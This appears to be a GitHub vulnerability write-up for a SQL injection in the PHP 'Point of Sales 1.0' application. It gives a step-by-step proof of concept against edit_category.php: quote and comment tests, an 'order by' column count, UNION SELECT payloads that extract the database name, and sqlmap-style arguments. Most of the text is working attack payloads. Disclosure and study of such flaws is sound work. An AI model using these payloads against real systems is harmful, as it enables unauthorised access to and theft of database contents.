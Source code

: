 # Point of Sales 1.0 - SQL Injection  
* Vendor Homepage: https://www.sourcecodester.com/php/14540/point-sales-phppdo-full-source-code-2020.html   
* Software Link: https://www.sourcecodester.com/sites/default/files/download/janobe/pos_0.zip  
* Version: V1.0  
* Proof of Concept:  
1. http://192.168.100.234/pos/edit_category.php?id=1    
![image](https://github.com/BigTiger2020/Point-of-Sales/blob/main/02.png)  
2. http://192.168.100.234/pos/edit_category.php?id=1'  
![image](https://github.com/BigTiger2020/Point-of-Sales/blob/main/03.png)    
3. http://192.168.100.234/pos/edit_category.php?id=1' --+  
![image](https://github.com/BigTiger2020/Point-of-Sales/blob/main/04.png)   
4. http://192.168.100.234/pos/edit_category.php?id=1' order by 1,2--+   
![image](https://github.com/BigTiger2020/Point-of-Sales/blob/main/05.png)  
5. http://192.168.100.234/pos/edit_category.php?id=-1%27%20UNION%20Select%201,2--+  
![image](https://github.com/BigTiger2020/Point-of-Sales/blob/main/06.png)   
6. http://192.168.100.234/pos/edit_category.php?id=-1%27%20UNION%20Select%201,database()--+  
![image](https://github.com/BigTiger2020/Point-of-Sales/blob/main/08.png)   
* sql payload:    
-u http://192.168.100.234/pos/edit_category.php?id=1  --batch --current-db  
![image](https://github.com/BigTiger2020/Point-of-Sales/blob/main/09.png)  
